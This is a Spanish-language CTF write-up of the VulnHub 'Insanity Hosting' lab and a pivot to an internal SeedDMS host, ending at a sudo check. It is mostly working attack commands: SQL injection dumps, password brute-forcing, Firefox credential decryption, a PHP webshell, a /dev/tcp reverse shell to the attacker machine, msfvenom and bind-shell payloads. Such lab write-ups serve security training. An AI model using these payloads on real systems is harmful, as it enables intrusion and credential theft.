






# Insanity Hosting - VulnHub

Vamos a realizar un barrido de red para ver que máquinas tenemos en la red.

```bash
sudo arp-scan -I ens33 --localnet --ignoredups

10.10.10.1	00:50:56:c0:00:0a	VMware, Inc. # Interfaz virtual
10.10.10.128	00:0c:29:81:8a:92	VMware, Inc. # Víctima
10.10.10.254	00:50:56:f7:48:af	VMware, Inc. # DHCP
```

Realicemos un escaneo de puertos a la máquina víctima para ver que servicios tiene abiertos.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.10.128 -Pn -oG allPorts

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Veamos versiones y posibles vulns de los servicios que están corriendo en la máquina víctima.

```bash
nmap -sCV -p21,22,80 10.10.10.128

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.10.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: ERROR
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 85:46:41:06:da:83:04:01:b0:e4:1f:9b:7e:8b:31:9f (RSA)
|   256 e4:9c:b1:f2:44:f1:f0:4b:c3:80:93:a9:5d:96:98:d3 (ECDSA)
|_  256 65:cf:b4:af:ad:86:56:ef:ae:8b:bf:f2:f0:d9:be:10 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.2.33)
|_http-title: Insanity - UK and European Servers
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.2.33
Service Info: OS: Unix
```

Al entrar en http://10.10.10.128/ vemos una web que ofrece distintos servicios de hosting.


Al intentar loggin con usuario anonymous en ftp logramos entrar, sin embargo, al hacer un `ls` nos da este error:

```bash
ftp> ls
ftp: Can't connect to `10.10.10.128:52557': No existe ninguna ruta hasta el `host'
```

Esto se debe a que el puerto de datos que está usando el servidor FTP es un puerto aleatorio, y al estar en modo pasivo, el cliente FTP intenta conectarse a ese puerto para recibir la lista de archivos, pero no puede porque no hay una ruta hasta ese puerto desde nuestra máquina.

Vamos a probar con el modo activo:

```bash
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
421 Service not available, user interrupt. Connection closed.
```

Ahora el error es que debemos usar el comando `EPSV` para que el cliente FTP use un puerto aleatorio para la conexión de datos,

```bash
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> epsv
EPSV/EPRT on IPv4 off.
EPSV/EPRT on IPv6 off.
ftp> ls
200 PORT command successful. Consider using PASV.
421 Service not available, user interrupt. Connection closed.
```

Ahora el error es que debemos usar el comando `PASV` para que el cliente FTP use un puerto aleatorio para la conexión de datos,

```bash
gobuster dir -u http://10.10.10.128 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --exclude-length 10701 -x txt,js,php,xml,bak

/index.php            (Status: 200) [Size: 31]
/news                 (Status: 301) [Size: 233] [--> http://10.10.10.128/news/]
/img                  (Status: 301) [Size: 232] [--> http://10.10.10.128/img/]
/data                 (Status: 301) [Size: 233] [--> http://10.10.10.128/data/]
/css                  (Status: 301) [Size: 232] [--> http://10.10.10.128/css/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.10.128/js/]
/webmail              (Status: 301) [Size: 236] [--> http://10.10.10.128/webmail/]
/fonts                (Status: 301) [Size: 234] [--> http://10.10.10.128/fonts/]
/monitoring           (Status: 301) [Size: 239] [--> http://10.10.10.128/monitoring/]
/licence              (Status: 200) [Size: 57]
/phpmyadmin           (Status: 301) [Size: 239] [--> http://10.10.10.128/phpmyadmin/]
/phpinfo.php          (Status: 200) [Size: 85266]
```

Vemos que hay un loggin en /phpmyadmin, otro en /monitoring y un último en webmail.

Además, hay un fichero phpinfo.php que nos da información sobre la versión de PHP y el sistema operativo, en este caso PHP Version 7.2.33 y el system Linux insanityhosting.vm 3.10.0-1127.18.2.el7.x86_64 Apache/2.4.6 (CentOS) PHP/7.2.33 

Apartados a mirar en phpinfo.php:

```bash
DOCUMENT_ROOT 	/var/www/html # Directorio raíz de la web
disable_functions	no value # Funciones deshabilitadas en PHP, como no hay ninguna, podemos usar todas las funciones de PHP (system, exec, passthru o shell_exec)
allow_url_include	Off # No podemos incluir ficheros de otras URLs, pero sí de la máquina local (NO RFI)
open_basedir	no value # No hay restricciones de directorios, podemos leer ficheros de cualquier directorio del sistema.
file_uploads	On # Podemos subir ficheros al servidor
upload_tmp_dir	no value # No hay un directorio temporal para subir ficheros, por lo que se usará el directorio temporal del sistema (/tmp)
```
Probamos inyecciones en el login de /phpmyadmin, incluso sqlmap:

```bash
sqlmap -u "http://10.10.10.128/phpmyadmin/" --dbs --batch --form
```

Vemos que en http://10.10.10.128/webmail/src/login.php se utiliza SquirrelMail 1.4.22, que tiene una vulnerabilidad de RCE (Remote Code Execution).

```bash
searchsploit SquirrelMail
SquirrelMail < 1.4.22 - Remote Code Execution | linux/remote/41910.sh
searchsploit -m linux/remote/41910.sh

./41910.sh http://10.10.10.128/webmail/src/login.php
```

Nos pide usuario y contraseña, por lo que lo dejamos para más adelante.

Vamos a intentar enumerar usuarios mediante OpenSSH:

```bash
OpenSSH 2.3 < 7.7 - Username Enumeration | linux/remote/45233.py
```

Tengo errores con paramiko, pero deberia hacer un entorno virtual:

```bash
python3 -m venv entorno_ssh
source entorno_ssh/bin/activate
pip install paramiko==2.4.1
```

Caemos en que podemos entrar a phpmyadmin sin usuario ni contraseña.

Probamos a subir un webshell en phpmyadmin, pero no nos deja:

```bash
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

Vemos que en /news está este mensaje:

```
Our team have been working hard to create you a free monitoring service for your servers. A special thank you to Otis, who led the team.
```

```bash
hydra -l otis -p 123456 10.10.10.128 http-post-form "/monitoring/login.php:username=^USER^&password=^PASS^:username" -t 64
```

Vamos a probar mientras con otis como usuario distintas contraseñas y por suerte encontramos 123456 como contraseña.

Ya podemos entrar a http://10.10.10.128/webmail/src/login.php y a http://10.10.10.128/monitoring/index.php

Probamos el script de RCE de SquirrelMail con el usuario y contraseña que hemos encontrado pero no funciona.

## Explotación

Vamos a /monitoring y vemos que hay un apartado de "Add New"


Creamos una nueva monitorización con la IP de nuestra máquina atacante.

Vamos a probar diferentes vulns para conprobar si es vulnerable a algo como un XSS, SQLi...

```html
<script>alert('XSS')</script>
```





Vemos que es vulnerable a XSS pero no vamos a tirar por ahi pues es vulnerable a SQLi pues si ponemos `' OR 1=1-- -` no nos aparece que este ni UP ni DOWN la ip, por o que podemos hacer consultas a una ip a la que no se pueda alcanzar para que el resultado nos llegue al email pues nos notifica cuando no logra entablar conexión con la ip que le hemos puesto.





vemos que `" union select 1,2,3,schema_name from information_schema.schemata -- -` nos devuelve

```
ID, Host, Date Time, Status
1,2,3,information_schema
1,2,3,monitoring
1,2,3,mysql
1,2,3,performance_schema
```

Le hemos puesto 1,2,3 y schema_name para que nos devuelva el nombre de las bases de datos que hay en el servidor porque el select que hace la aplicación es `select id, host, date_time, status` y al poner 1,2,3 y schema_name nos devuelve 1,2,3 y el nombre de la base de datos.

`" union select 1,2,3,table_name from information_schema.tables where table_schema='monitoring' -- -` nos devuelve

```
ID, Host, Date Time, Status
1,2,3,hosts
1,2,3,log
1,2,3,users
```


`" union select 1,2,3,column_name from information_schema.columns where table_name='users' -- -` nos devuelve

```
ID, Host, Date Time, Status
1,2,3,id
1,2,3,username
1,2,3,password
1,2,3,email
```

`" union select id,username,password,email from monitoring.users -- -` nos devuelve

```
ID, Host, Date Time, Status
1,admin,$2y$12$huPSQmbcMvgHDkWIMnk9t.1cLoBWue3dtHf9E5cKUNcfKTOOp8cma,admin@insanityhosting.vm
2,nicholas,$2y$12$4R6JiYMbJ7NKnuQEoQW4ruIcuRJtDRukH.Tvx52RkUfx5eloIw7Qe,nicholas@insanityhosting.vm
3,otis,$2y$12$./XCeHl0/TCPW5zN/E9w0ecUUKbDomwjQ0yZqGz5tgASgZg6SIHFW,otis@insanityhosting.vm
```

Tras intentar crackear estos hashes, no ha sido posible, por lo que vamos a seguir investigando.
$2y$ es un hash de bcrypt y como está seguido de costo 12 es muy costoso de crackear.

`" union select 1,2,3,table_name from information_schema.tables where table_schema='mysql' -- -` nos devuelve

```
ID, Host, Date Time, Status
1,2,3,columns_priv
1,2,3,db
1,2,3,event
1,2,3,func
1,2,3,general_log
1,2,3,help_category
1,2,3,help_keyword
1,2,3,help_relation
1,2,3,help_topic
1,2,3,host
1,2,3,ndb_binlog_index
1,2,3,plugin
1,2,3,proc
1,2,3,procs_priv
1,2,3,proxies_priv
1,2,3,servers
1,2,3,slow_log
1,2,3,tables_priv
1,2,3,time_zone
1,2,3,time_zone_leap_second
1,2,3,time_zone_name
1,2,3,time_zone_transition
1,2,3,time_zone_transition_type
1,2,3,user
```

`" union select 1,2,3,column_name from information_schema.columns where table_name='user' and table_schema='mysql' -- -` nos devuelve

```
ID, Host, Date Time, Status
1,2,3,Host
1,2,3,User
1,2,3,Password
1,2,3,Select_priv
1,2,3,Insert_priv
1,2,3,Update_priv
1,2,3,Delete_priv
1,2,3,Create_priv
1,2,3,Drop_priv
1,2,3,Reload_priv
1,2,3,Shutdown_priv
1,2,3,Process_priv
1,2,3,File_priv
1,2,3,Grant_priv
1,2,3,References_priv
1,2,3,Index_priv
1,2,3,Alter_priv
1,2,3,Show_db_priv
1,2,3,Super_priv
1,2,3,Create_tmp_table_priv
1,2,3,Lock_tables_priv
1,2,3,Execute_priv
1,2,3,Repl_slave_priv
1,2,3,Repl_client_priv
1,2,3,Create_view_priv
1,2,3,Show_view_priv
1,2,3,Create_routine_priv
1,2,3,Alter_routine_priv
1,2,3,Create_user_priv
1,2,3,Event_priv
1,2,3,Trigger_priv
1,2,3,Create_tablespace_priv
1,2,3,ssl_type
1,2,3,ssl_cipher
1,2,3,x509_issuer
1,2,3,x509_subject
1,2,3,max_questions
1,2,3,max_updates
1,2,3,max_connections
1,2,3,max_user_connections
1,2,3,plugin
1,2,3,authentication_string
```

Vemos interesantes los campos `User`, `Password` y `authentication_string`.

`" union select 1,User,Password,authentication_string from mysql.user -- -` nos devuelve

```
ID, Host, Date Time, Status
1,root,*CDA244FF510B063DA17DFF84FF39BA0849F7920F,
1,,,
1,elliot,,*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9
```

Tenemos a los usuarios root y elliot sin contraseña y con un string de autenticación.

Pasando el string de autenticación por https://crackstation.net/ vemos lo siguiente:

```
Hash	Type	Result
5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9	MySQL4.1+	elliot123
```

Sin embargo para root no nos da nada.

```bash
ssh elliot@10.10.10.128
password: elliot123
```

## Escalada de privilegios

He probado de todo

```bash
id
uid=1003(elliot) gid=1003(elliot) grupos=1003(elliot)

find / -perm -4000 2>/dev/null

cat /etc/crontab
```

Vemos que en mi home hay un directorio .mozilla, en el entramos a firefox/esmhp32w.default-default y podemos ver un fichero `key4.db` que contiene las claves criptográficas de firefox, y un fichero `logins.json` que contiene los logins guardados en firefox.

También hay otro llamado `cert9.db` que contiene los certificados de firefox.

Usaremos la herramienta https://github.com/unode/firefox_decrypt/ para extraer las contraseñas guardadas en firefox.

Vamos a pasar los ficheros del ssh a nuestra máquina atacante y luego ejecutamos el script de firefox_decrypt.py para descifrar las contraseñas.

```bash
tar -cvzf dale.gz firefox/
```

```bash
scp -r elliot@10.10.10.128:/home/elliot/.mozilla/dale.gz .
```

```bash
tar -xvzf dale.gz

python3 firefox_decrypt.py dale

Select the Mozilla profile you wish to decrypt
1 -> wqqe31s0.default
2 -> esmhp32w.default-default
2

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'
```

```bash
su root
Password: S8Y389KJqWpJuSwFqFZHwfZ3GnegUa

[root@insanityhosting ~]# cat flag.txt 
```

```
    ____                       _ __       
   /  _/___  _________ _____  (_) /___  __
   / // __ \/ ___/ __ `/ __ \/ / __/ / / /
 _/ // / / (__  ) /_/ / / / / / /_/ /_/ / 
/___/_/ /_/____/\__,_/_/ /_/_/\__/\__, /  
                                 /____/   

Well done for completing Insanity. I want to know how difficult you found this - let me know on my blog here: https://security.caerdydd.wales/insanity-ctf/

Follow me on twitter @bootlesshacker

https://security.caerdydd.wales

Please let me know if you have any feedback about my CTF - getting feedback for my CTF keeps me interested in making them.

Thanks!
Bootlesshacker
```

## Pivoting

```bash
use auxiliary/scanner/ssh/ssh_login
set rhosts 10.10.10.128
set username root
set password S8Y389KJqWpJuSwFqFZHwfZ3GnegUa
run
```

He tenido que ir a /etc/ssh/sshd_config y cambiar `PermitRootLogin yes` y reiniciar el servicio sshd para poder entrar como root.

```bash
sessions -u 1 # Actualiza la sesión 1 a Meterpreter

(Meterpreter 2)(/root) > ifconfig

Interface  3
============
Name         : ens34
Hardware MAC : 00:0c:29:81:8a:9c
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 20.20.20.128
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::72b3:7e49:b0ef:23c9
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

```bash
sessions 2
(Meterpreter 2)(/root) > run autoroute -s 20.20.20.0/24

(Meterpreter 2)(/root) > run autoroute -p
Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   20.20.20.0         255.255.255.0      Session 2
```

Ponemos en background la sesión 2 y vamos a hacer uso de proxychains para hacer un escaneo de puertos en la red interna a través del host comprometido.

```bash
cat /etc/proxychains4.conf # Comprobamos que el proxychains está configurado para usar el puerto 1080 y socks5

use auxiliary/server/socks_proxy
set SRVPORT 1080
set VERSION 5
run -j

# jobs -K en caso de querer matar el job del proxy
```

Ahora en nuestra máquina atacante hacemos un escaneo de puertos en la red interna a través del host comprometido utilizando proxychains.

Usaremos un oneliner en bash en el ssh de la primera maquina comprometida

```bash
for i in {1..254}; do (ping -c 1 20.20.20.$i | grep "bytes from" &) ; done
```

```bash
[root@insanityhosting elliot]# for i in {1..254}; do (ping -c 1 20.20.20.$i | grep "bytes from" &) ; done
64 bytes from 20.20.20.1: icmp_seq=1 ttl=128 time=0.772 ms
64 bytes from 20.20.20.128: icmp_seq=1 ttl=64 time=0.041 ms
64 bytes from 20.20.20.129: icmp_seq=1 ttl=64 time=0.232 ms
```

Vemos la ip de la máquina interna

```bash
sudo proxychains4 nmap -p- --open -sS --min-rate 5000 -vvv -n 20.20.20.129 -Pn

PORT   STATE SERVICE REASON
53/tcp open  domain  syn-ack ttl 64
```

Para asegurarnos hacemos esto:

```bash
use auxiliary/scanner/portscan/tcp
set rhosts 20.20.20.129
run

[+] 20.20.20.129          - 20.20.20.129:80 - TCP OPEN
[+] 20.20.20.129          - 20.20.20.129:3306 - TCP OPEN
```

Mi error con nmap es que estoy usando -sS y un min-rate de 5000, y al estar usando proxychains hay conflicto, usaremos -sT y ademas hacerlo sin sudo.

```bash
proxychains4 nmap -p- --open -sT -vvv -n 20.20.20.129 -Pn

```

Volvemos al meterpreter de la primera maquina y hacemos un port forwarding hacia el puerto 80 de la segunda maquina.

```bash
portfwd add -l 1234 -p 80 -r 20.20.20.129
```

Vamos a http://localhost:1234/ y vemos lo siguiente:


```bash
gobuster dir -u http://localhost:1234 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 10701 -x txt,js,php,xml,bak
```

Usar gobuster hace que metasploit tenga un segmentation fault, por lo que vamos a hacer el port forwarding mediante ssh y no meterpreter.

```bash
ssh -L 1234:20.20.20.129:80 root@20.20.20.128
```

Ahora si podemos lanzar gobuster sin que metasploit se caiga.

```bash
gobuster dir -u http://localhost:1234 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 10701 -x txt,js,php,xml,bak

/.php                 (Status: 403) [Size: 276]
/img                  (Status: 301) [Size: 311] [--> http://localhost:1234/img/]
/css                  (Status: 301) [Size: 311] [--> http://localhost:1234/css/]
/js                   (Status: 301) [Size: 310] [--> http://localhost:1234/js/]
/fonts                (Status: 301) [Size: 313] [--> http://localhost:1234/fonts/]
/.php                 (Status: 403) [Size: 276]
/server-status        (Status: 403) [Size: 276]
```

No nos devuelve nada interesante.

Podemos hacer un port forwarding hacia el puerto 3306 de la segunda máquina y conectarnos a la base de datos MySQL.

```bash
ssh -L 4321:20.20.20.129:3306 root@20.20.20.128
```

Mientras, vemos un panel de contacto, vamos a intentar un XSS.

```html
<script>alert('XSS')</script>
```

No funciona, tampoco funciona un SQLi.

Usamos ahora db_nmap para enumerar más.

```bash
sudo systemctl start postgresql
sudo msfdb init
db_nmap -sCV -p 1234 localhost

[*] Nmap: PORT     STATE SERVICE VERSION
[*] Nmap: 1234/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
[*] Nmap: |_http-title: Welcome to the land of pwnland
[*] Nmap: |_http-server-header: Apache/2.4.41 (Ubuntu)

```

```bash
nmap -sCV -p4321 localhost

PORT     STATE SERVICE VERSION
4321/tcp open  mysql   MySQL 8.0.25-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.25-0ubuntu0.20.04.1
|   Thread ID: 16
|   Capabilities flags: 65535
|   Some Capabilities: InteractiveClient, SupportsLoadDataLocal, Support41Auth, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Speaks41ProtocolOld, ODBCClient, IgnoreSigpipes, SupportsCompression, Speaks41ProtocolNew, ConnectWithDatabase, SwitchToSSLAfterHandshake, LongColumnFlag, LongPassword, FoundRows, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: RE-ZB-+\x1DAZ\x08\x03K\\x10^@\x1Ei\x16
|_  Auth Plugin Name: caching_sha2_password
```

En el código fuente vemos lo siguiente:

```html
<script src="js/main.js"></script>
```

view-source:http://localhost:1234/js/main.js

```javascript
        // give active class to first link
        //make sure this js file is same as installed app on our server endpoint: /seeddms51x/seeddms-5.1.22/
```

Al visitar http://localhost:1234/seeddms51x/seeddms-5.1.22/ vemos un panel de login de SeedDMS



El archivo de configuración de SeedDMS se encuentra en /var/www/html/seeddms51x/seeddms-5.1.22/conf/settings.xml por lo que nos metemos a http://localhost:1234/seeddms51x/conf/settings.xml

```xml
    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="seeddms" doNotCheckVersion="false">
    </database>
```

Vemos las credenciales de la base de datos de SeedDMS.

```bash
mysql -h localhost -P 4321 -u seeddms -p seeddms --skip-ssl
```

skip-ssl es para que no nos de error de certificado.

```sql
MySQL [seeddms]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| seeddms            |
| sys                |
+--------------------+

MySQL [seeddms]> use seeddms
Database changed
MySQL [seeddms]> show tables;
+------------------------------+
| Tables_in_seeddms            |
+------------------------------+
| tblACLs                      |
| tblAttributeDefinitions      |
| tblCategory                  |
| tblDocumentApproveLog        |
| tblDocumentApprovers         |
| tblDocumentAttributes        |
| tblDocumentCategory          |
| tblDocumentContent           |
| tblDocumentContentAttributes |
| tblDocumentFiles             |
| tblDocumentLinks             |
| tblDocumentLocks             |
| tblDocumentReviewLog         |
| tblDocumentReviewers         |
| tblDocumentStatus            |
| tblDocumentStatusLog         |
| tblDocuments                 |
| tblEvents                    |
| tblFolderAttributes          |
| tblFolders                   |
| tblGroupMembers              |
| tblGroups                    |
| tblKeywordCategories         |
| tblKeywords                  |
| tblMandatoryApprovers        |
| tblMandatoryReviewers        |
| tblNotify                    |
| tblSessions                  |
| tblUserImages                |
| tblUserPasswordHistory       |
| tblUserPasswordRequest       |
| tblUsers                     |
| tblVersion                   |
| tblWorkflowActions           |
| tblWorkflowDocumentContent   |
| tblWorkflowLog               |
| tblWorkflowMandatoryWorkflow |
| tblWorkflowStates            |
| tblWorkflowTransitionGroups  |
| tblWorkflowTransitionUsers   |
| tblWorkflowTransitions       |
| tblWorkflows                 |
| users                        |
+------------------------------+
MySQL [seeddms]> select * from users;
+-------------+---------------------+--------------------+-----------------+
| Employee_id | Employee_first_name | Employee_last_name | Employee_passwd |
+-------------+---------------------+--------------------+-----------------+
|           1 | saket               | saurav             | Saket@#$1337    |
+-------------+---------------------+--------------------+-----------------+
```

Tenemos las credenciales `saket:Saket@#$1337` para el login de SeedDMS.

Nos pide ID asi que ponemos 1 y la contraseña.

No nos funciona

```bash
MySQL [seeddms]> select * from tblUsers;
+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
| id | login | pwd                              | fullName      | email              | language | theme | comment | role | hidden | pwdExpiration       | loginfailures | disabled | quota | homefolder |
+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
|  1 | admin | f9ef2c539bad8a6d2f3432b6d49ab51a | Administrator | address@server.com | en_GB    |       |         |    1 |      0 | 2021-07-13 00:12:25 |             0 |        0 |     0 |       NULL |
|  2 | guest | NULL                             | Guest User    | NULL               |          |       |         |    2 |      0 | NULL                |             0 |        0 |     0 |       NULL |
+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
```

Vemos que el usuario admin tiene un hash de contraseña `f9ef2c539bad8a6d2f3432b6d49ab51a` que es un hash MD5.

No he podido crackearlo con hashcat ni con john the ripper, por lo que vamos a cambiar la contraseña del usuario admin en la base de datos.

```sql
UPDATE tblUsers SET pwd=MD5('hola123') WHERE login='admin';
```

Ahora podemos entrar con el usuario admin y la contraseña hola123.



Vamos a subir un webshell, para ello vamos a crear un nuevo documento y subimos un fichero PHP con el siguiente contenido:

```php
<?php
  system($_GET['cmd']);
?>
```

Al subirlo nos da un error 500, vamos a jugar coon burpsuite a ver si podemos bypassear la subida.

También podríamos haber usado metasploit para el login de mysql:

```bash
use auxiliary/scanner/mysql/mysql_login

set USERNAME seeddms
set PASSWORD seeddms
set rhosts 20.20.20.129
set CreateSession true
run

sessions 4
[*] Starting interaction with 4...

mysql @ 127.0.0.1:48376 > query show databases;
Response
========

    #  Database
    -  --------
    0  information_schema
    1  mysql
    2  performance_schema
    3  seeddms
    4  sys
```

Seguimos con el bypass de subida.

Buscando información de donde almacena SeedDMS los archivos, vemos que lo hace en la ruta por defecto http://localhost:1234/seeddms51x/data/1048576/<ID-Documento>/1.php

Tenemos que poner el ID del documento que subimos y se suele renombrar a `1` guardando la extensión.

Vamos a obtener una reverse shell:

http://localhost:1234/seeddms51x/data/1048576/23/1.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.10.129/443 0>%261"

No funciona, vamos a crear un payload en msfvenom:

```bash
msfvenom -p linux/meterpreter/reverse_tcp LHOST=20.20.20.128 LPORT=4455 -f elf > shell.elf
```

Nos devuelve /* y no ejecuta el payload.

Usamos https://www.revshells.com/ para generar un payload en php para una bind shell.

```
http://localhost:1234/seeddms51x/data/1048576/23/1.php?cmd=php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",4488);socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);socket_write($cl,$m,strlen($m));}}'
```

Esta reverse shell sí que funciona, vamos a ponernos en escucha en nuestra máquina atacante mediante netcat, pero primero hacemos un port forwarding.

```bash
ssh -L 4488:20.20.20.129:4488 root@10.10.10.128
S8Y389KJqWpJuSwFqFZHwfZ3GnegUa
```

Hacemos que el puerto 4488 de la máquina interna se redirija al puerto 4488 de nuestra máquina atacante.

```bash
nc 127.0.0.1 4488

$ whoami
www-data
```

Por fin obtenemos una reverse shell, de hecho, es una dumb shell, por lo que vamos a mejorarla a una reverse shell con TTY.

Vamos a realizar un tratamiento de la TTY:

```bash
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 40 cols 120
```

No podemos realizar un tratamiento de la TTY porque se cuelga todo el rato, intentamos con la reverse shell de Pentestmonkey y sí que se pone a la escucha.

Hacemos el port forwarding con el parámetro -R para que sea remoto y no local.

```bash
ssh -R 20.20.20.128:4467:10.10.10.129:4467 root@10.10.10.128
```

Hacemos que el puerto 4467 de la máquina intermedia se redirija al puerto 4467 de nuestra máquina atacante.

He activado en sudo nano /etc/ssh/sshd_config el GatewayPorts yes para que el puerto remoto sea accesible desde cualquier IP y no solo desde localhost.

Tras intentar de todo, lo que estaba haciendo estaba mal porque estaba tratando de hacer una reverse shell en vez de una bind shell. He optado por lo siguiente:

1. Port forwarding en metasploit:
```bash
(Meterpreter 3)(/root) > portfwd add -l 4430 -p 4430 -r 20.20.20.129 -L 0.0.0.0
```

Hacemos que el puerto 4430 de nuestra máquina atacante se redirija al puerto 4430 de la máquina interna.

2. Bind shell en la máquina interna sin netcat, sino con mkfifo:

```php
<?php
system("rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvnp 4430 > /tmp/f");
?>
```

Esto lo hacemos pues la máquina interna tras varios intentos no ha funcionado con netcat.

```bash
nc 127.0.0.1 4430
```

Ahora sí que tenemos una reverse shell con TTY en la máquina interna.

```bash
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 40 cols 120
```

Vamos a escalar privilegios.

Vemos al usuario saket en `/home` pero no podemos entrar a su home, ya habíamos visto su contraseña en la base de datos de SeedDMS y es `Saket@#$1337`.

```bash
www-data@ubuntu:/home$ su saket
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

saket@ubuntu:/home$ sudo -l
User saket may run the following commands on ubuntu:
